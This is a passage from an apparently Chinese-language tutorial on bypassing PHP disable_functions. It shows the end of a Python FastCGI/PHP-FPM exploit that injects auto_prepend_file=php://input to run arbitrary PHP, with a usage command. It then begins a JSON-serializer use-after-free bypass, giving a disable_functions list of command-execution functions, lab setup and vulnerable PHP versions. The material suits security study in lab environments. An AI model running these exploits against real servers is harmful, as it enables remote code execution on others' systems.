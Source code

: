 ```python
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    print(force_text(response))
```
:::

使用方法：

```bash
python3 exp.py -c '<?php 要执行的php代码?>' -p 28141 ip 存在的php文件
```


## 06 Json Serializer UAF

### 原理

此漏洞利用 json 序列化程序中的释放后使用漏洞，利用 json 序列化程序中的堆溢出触发，以绕过 disable_functions 和执行系统命令，UAF 一次可能不成功，多次尝试

### 配置与部署

php.ini 配置如下:

```ini
disable_functions=pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,system,putenv
```

[Json Serializer UAF 复现环境](https://github.com/Apursuit/AntSword-Labs/tree/master/bypass_disable_functions/6)

docker部署

```bash
docker compose up -d
```

在compose文件里，容器会映射到主机的`18080`端口

### 利用


使用条件
- Linux 操作系统
PHP 版本
- 7.1 - all versions to date
- 7.2 < 7.2.19 (released: 30 May 2019)
- 7.3 < 7.3.6 (released: 30 May 2019)

看起来要求好像没有那么严格，只需要linux系统以及php版本在7.1左右即可
